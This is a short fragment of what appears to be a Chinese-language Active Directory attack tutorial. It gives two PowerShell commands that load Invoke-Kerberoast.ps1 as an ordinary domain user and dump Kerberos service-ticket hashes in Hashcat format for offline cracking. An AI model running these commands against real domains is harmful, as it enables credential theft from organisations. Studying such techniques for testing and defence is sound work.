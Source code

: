 [![](assets/1701606719-65cb2ef092b190e507acfd08ff1949ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162940-f5efa1ae-7e10-1.png)

#### Powershell-1

在域内一台主机上以普通用户权限执行：

```bash
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat > 1.txt
```
